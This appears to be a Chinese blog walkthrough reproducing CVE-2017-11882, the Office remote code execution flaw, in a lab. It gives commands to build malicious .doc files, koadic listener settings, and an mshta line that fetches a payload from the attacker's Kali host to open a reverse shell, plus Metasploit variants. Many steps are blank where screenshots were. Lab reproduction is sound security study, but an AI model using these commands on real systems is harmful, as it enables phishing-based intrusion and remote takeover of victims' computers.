# CVE-2017-11882（Office 远程代码执行） - 浅笑 996 - 博客园

> 原文：[`www.cnblogs.com/qianxiao996/p/13574652.html`](https://www.cnblogs.com/qianxiao996/p/13574652.html)

测试环境：win7+kali+office 2007 xp+kali+office 2003
win7 ip:10.10.1.144 xp ip: 10.10.1.126 kali ip 10.10.1.67

### 一． 简单测试弹出计算器（xp)

#### 1.在 kali 下执行生成一个含有恶意代码的 doc 进行测试：

```
PythonCommand109b_CVE-2017-11882 -c “cmd.exe /c calc.exe” -o test.doc 
```

这条指令的意思是调用 cmd 并执行 calc.exe（即计算器）


#### 2.在靶机上打开就会弹出计算器：



### 二． 通过 koadic 漏洞复现(xp)

#### 1.下载 koadic 并启用

[`github.com/backlion/koadic.git`](https://github.com/backlion/koadic.git)

#### 2.执行./koadice


首先看一下 koadic 怎么用直接


#### 3.接下来设置 shell 的接受地址以及端口

```
Set lhost 10.10.1.67
Set lport 55555
Run 
```


这儿需要注意的是生成的网址需要记住，以方便后面应用
接下来通过 poc 生成一个含有恶意代码的 doc 文件

```
python Command109b_CVE-2017-11882.py -c “mshtahttp://10.10.1.67:55555/Ly348” -o exploit.doc 
```


接下来在目标主机打开钓鱼文档
切回 koadic 则发现发生变化

这个时候说明入侵成功并已经反弹 shell
接下来在 koadic 执行 zombies 0 切换到项目

接下来用 cmdshell 模块
输入 cmdshell 0

这就已经进去 cmd 了接下来可以愉快的玩耍了



### 三． 通过 msf 的 ps_shell 模块 漏洞复现(win7)

#### 1.启动 msfconsole



#### 2.查找对应的模块 search PS_shell




#### 3.利用 msf 生成利用的 powershell 脚本





提示一点 在这儿的 Command109b_CVE-2017-11882 是 109 字节限制的 当然也有 43 字节的
1.接接下来在靶机打开测试文档就好
2.切换回 kali 会出现

说明已经建立链接了
接下来输入 sessions -i 查看一下

接下来切换进入

这个时候就已经入侵到靶机了。


### 四． 通过 hta_server 模块复现(xin7)

#### 1.在 msf 搜索 hta_server 模块


#### 2.进行设置





#### 3.在 kali 上生成带有恶意命令的 doc


#### 4.在靶机上打开 test.doc 文档 切换回 kal


（之后的过程就和之前一样了，就不多啰嗦了）。
(ps:后两种是利用了 powershell，所以在 win7 下测试的）